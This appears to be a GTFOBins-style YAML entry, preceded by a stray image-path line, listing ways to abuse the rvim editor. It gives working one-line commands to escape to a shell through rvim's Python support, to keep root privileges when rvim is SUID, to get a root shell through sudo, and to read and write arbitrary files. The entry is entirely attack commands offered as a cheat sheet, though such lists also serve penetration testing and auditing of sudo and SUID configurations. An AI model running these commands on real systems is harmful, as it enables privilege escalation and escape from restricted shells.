 ```yaml
---
name: rvim
functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - description: This requires that rvim is compiled with Python support.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  suid:
    - description: This requires that `rvim` is compiled with Python support.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

